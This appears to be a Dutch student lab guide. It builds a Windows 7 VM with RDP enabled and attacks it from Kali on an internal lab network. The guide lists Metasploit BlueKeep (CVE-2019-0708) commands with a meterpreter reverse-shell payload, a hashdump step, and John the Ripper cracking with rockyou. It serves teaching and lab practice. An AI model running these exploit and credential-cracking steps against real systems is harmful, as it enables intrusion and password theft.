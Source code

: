 # STAPPENPLAN NPE-OPDRACHT

In dit stappenplan wordt eerst toegelicht hoe de Windows 7 omgeving automatisch wordt opgezet. Vervolgens worden de stappen beschreven om vanuit de Kali Linux-machine een aanval uit te voeren op basis van CVE-2019-0708.

## 1. Windows 7

### Voorbereiding:
#### Downloaden en installatie van nodige bestanden


- Voor het downloaden van de gebruikte Windows 7 ISO, ga naar:
  `https://archive.org/details/win-7-ultimate-sp-1-en-us-sept-2015-x-64/Windows%207%20Ultimate%2064-bit%20SP1%20%5BPreactivated%20ISO%5D/Images/Windows%207%2064bit%20SP1-2023-11-29-22-03-26.png` en klik op **ISO IMAGE**
- Zet de gedownloade ISO-file in dezelfde map als de scripts.
- Aangezien Windows 7 de recente VirtualBox Guest Additions niet correct ondersteunt, moeten we versie 6.1.26 downloaden via `https://download.virtualbox.org/virtualbox/6.1.26/VBoxGuestAdditions_6.1.26.iso`
- Zet ook deze ISO-file in dezelfde map.

#### Execution-Policy aanpassen
Soms laat je Host-Computer niet toe om powershell-scripts te runnen die je zelf niet gesigned hebt, daarom moet je je Execution-Policy aanpassen in een **Administator mode Powershell** venster:

```ps
# Probeer eerst deze command
Set-ExecutionPolicy Unrestricted

# als deze een foutmelding geeft moet je deze uitvoeren:
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

### Stap 1: Aanmaken Windows7-VM

- Start het `create_win7_vm.ps1` script
- Volg de installatie (klik enkele keren op "Next") en wacht tot Windows volledig geïnstalleerd is.
- Wanneer Windows geïnstalleerd is, ga naar `file explorer > computer > VirtualBox Guest Additions` op de Windows7-VM en voer het `VBoxWindowsAdditions-amd64.exe` uit.
- Selecteer alle default-opties van de setup (klik telkens op *Next*) en vertrouw de installatie indien je dit scherm krijgt. Klik dan op **Install**.
- Druk op **reboot now** wanneer dit gevraagd uit

### Stap 2: RDP inschakelen

- Open op de Windows7-VM *cmd* als administrator en voer volgende commando's uit:

```ps
Z:
powershell -ExecutionPolicy Bypass -File \enable_rdp.ps1
```

- Hiermee worden RDP, ICMP (ping) en poort 3389 automatisch geactiveerd.
- De Windows 7 omgeving is nu volledig klaar voor de aanval.

## 2. Kali 

Zodra de Windows 7 VM klaarstaat, moet je er niets meer aan aanpassen. We gaan nu voortdoen met het opzetten van de Kali VM.

### Stap 1: Netwerkconfiguratie
**Zorgen dat beide VMs in hetzelfde interne netwerk zitten**

- Verander in de VirtualBox settings op je Host-Computer:
  - Netwerkadapter 1: default NAT (zodat je internet hebt)
  - Netwerkadapter 2: *internal network* en selecteer `npe_intnet` 

**IP-adres toekennen aan eth1**

1. Open een terminal op Kali en voer het volgende uit: `sudo nano /etc/network/interfaces`
2. Voeg hier vervolgens volgende code aan toe:

```bash
auto eth1
iface eth1 inet static
    address 10.10.10.3
    netmask 255.255.255.0
```

3. Herstart nu de Kali Linux VM.

### Stap 2: Metasploit

**Metasploit-aanval opstarten**

```bash
# dit commando voer je gewoon uit in de linux-terminal
msfconsole

# Vervolgens voer je op de metasploit-CLI volgende commando's uit (de commando's beginnen pas na de >)

msf6 > exploit/windows/rdp/cve_2019_0708_bluekeep_rce
sf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set RHOSTS 10.10.10.2
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LHOST 10.10.10.3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set LPORT 4444
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> set TARGET 1
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce)> run
```

Als je al dit goed hebt uitgevoerd, zit je nu in de meterpreter-console

### Stap 3: meterpreter console gebruiken om wachtwoorden te kraken
1. Op de kali VM kan je via de meterpreter console nu de hashdumps van Windows opvragen

```bash
meterpreter > hashdump
```

2. De output van deze command kan je dan opslaan in dit bestand `~/cybersec/hashdump_win7.txt`
3. Vervolgens ga je de rockyou.txt wordlist nodig hebben, moet je misschien eerst unzippen met `gunzip /usr/share/wordlists/rockyou.txt.gz`
4. Vervolgens kan je dit commando runnen om het te kraken `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ~/cybersec/hashdump_win7.txt` 
5. Hieruit zie je dan dat het wachtwoord bv. "superman" is van de Administrator 